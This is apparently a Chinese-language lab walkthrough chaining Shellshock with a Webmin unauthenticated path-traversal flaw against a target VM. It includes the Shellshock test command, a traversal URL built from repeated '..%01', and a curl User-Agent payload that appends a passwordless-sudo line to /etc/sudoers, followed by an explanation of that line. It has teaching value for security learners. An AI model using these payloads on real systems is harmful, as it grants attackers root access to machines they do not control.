



利用条件:1.bash --version   version<4.3
        2.Apache web 服务器
        3.mod_cgi启用
        4.有cgi脚本
利用方式:通过Apache cgi脚本概念验证
        即是通过web访问cgi脚本并修改ua头，将ua头改为想执行的命令


验证命令

```bash
$ env x='() { :;}; echo "shellshocked!!!"' bash -c date
```



这台靶机是存在的
此外这台靶机的webmin还存在任意文件读取的漏洞
webmin作为一个web的系统管理工具，使用perl作为服务端脚本语言，并结合了cgi技术（查看webmin的源码也可以发现
而任意文件读取毫无疑问是可以通过web来执行cgi脚本的



查看perl脚本

```perl
  $temp="/..%01" x 40;

                if ($tar == '0')
                        { my $url= "http://". $target. ":" . $port ."/unauthenticated/".$temp . $filename;
                        $content=get $url;

```
得知改漏洞的利用原理是构造如下url

http://10.10.10.20：10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/filename



可以读取文件
那么接下来的利用
1.创造一个cgi脚本，脚本中使用`#!bin/bash`
2.在访问改cgi脚本执行时，通过修改ua头，将要执行的命令通过ua头传送

创建了一个cgi脚本
```bash
obama@ubuntuvm:~$ echo '#!/bin/bash' > test.cgi                        
obama@ubuntuvm:~$ cat test.cgi 
#!/bin/bash
obama@ubuntuvm:~$ chmod +x test.cgi 
```
通过curl构造ua修改攻击

```bash
┌─[fforu@parrot]─[/usr/share]
└──╼ $sudo curl http://10.10.10.20:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/home/obama/test.cgi -A '() { :; }; /bin/echo "obama ALL=(ALL) NOPASSWD:ALL" 
>> /etc/sudoers'
<h1>Error - Missing C ontent-Type Header</h1>
```
构造完毕后执行即可

```bash
obama@ubuntuvm:~$ sudo -l
User obama may run the following commands on this host:
    (ALL) NOPASSWD: ALL
```

sudoers文件解析
第一个 ALL：在 obama ALL=(ALL) NOPASSWD: ALL 中，第一个 ALL 指定了被授权执行命令的用户。在这个例子中，obama 是被授权的用户，ALL 表示可以在任何主机上执行命令。

第二个 ALL：在 obama ALL=(ALL) NOPASSWD: ALL 中，第二个 ALL 指定了被授权执行命令的身份。在这个例子中，ALL 表示可以以任何用户的身份执行命令。

第三个 ALL：在 obama ALL=(ALL) NOPASSWD: ALL 中，第三个 ALL 指定了被授权执行的命令。在这个例子中，ALL 表示可以执行任何命令。

obama ALL=(ALL) NOPASSWD: ALL 这行的意思是允许用户 obama 在任何主机上以任何用户的身份执行任何命令，而且不需要密码验证。